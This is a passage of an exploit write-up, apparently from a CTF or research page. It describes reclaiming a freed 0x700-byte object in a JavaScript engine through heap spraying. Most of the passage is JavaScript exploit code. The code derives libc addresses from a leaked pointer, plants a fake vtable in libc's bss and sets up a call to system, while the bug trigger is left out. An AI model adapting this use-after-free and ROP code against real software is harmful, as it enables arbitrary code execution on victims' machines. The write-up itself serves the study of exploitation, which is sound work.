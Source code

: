 The freed object was approx of size **0x700** bytes, so the process of reclaiming the memory is using the same size.
The memory of the sprayed object is carefully crafted so that:

* vtable ptr points to our controlled memory
* inlined properties used for `GetDouble` & `GetInt` are filled with marker objects. We can read from them in order too understand if the memory was reclaimed successfully or not.
* queue that is used for push/pop operations points to global section in libc. There we will write fake vtable


```js
let allocate = getAllocationConstructor();

////////////////////////////


var atoi_addr = (await spray_inst[0]["stor"].getLibcAddress()).addr // provided leak
libc_base = atoi_addr - 0x40680;
libc_bss_addr = libc_base + 0x3eb000
system_ptr        = libc_base + 0x4f440;
setcontext        = libc_base + 0x520c7

console.log("libc base  @ "+hex(libc_base))
console.log("bss        @ "+hex(libc_bss_addr))
console.log("system_ptr @ "+hex(system_ptr))


let alloc_count = 0x1000;

let data = new ArrayBuffer(0x700); // spray size
let b64arr = new BigUint64Array(data);
let view = new DataView(data);


b64arr.fill(0x41414242434344n);
let sprayed_val = 0x41414242434344


var bss_offs = libc_bss_addr+0xae0;
console.log("writing to "+hex(bss_offs));

/* ROP */
b64arr[0] = BigInt(bss_offs-0x10);
b64arr[0xa8/8] = BigInt(system_ptr); // rcx, future rip
b64arr[0x68/8] = BigInt(bss_offs+8); // rdi



//view.setUint8(command.length,0x0);
b64arr[(0x670/8)] = BigInt(sprayed_val); // double offs
b64arr[(0x648/8)] = BigInt(bss_offs);

b64arr[(0x650/8)] = BigInt(bss_offs) // vtable things
b64arr[(0x658/8)] = BigInt(bss_offs)
b64arr[(0x660/8)] = BigInt(0n)


/////////////

// bug trigger code is here, just not shown in this snippet :)

////////////

await (Array(alloc_count).fill().map(() => allocate(data))) // go reclaim!
```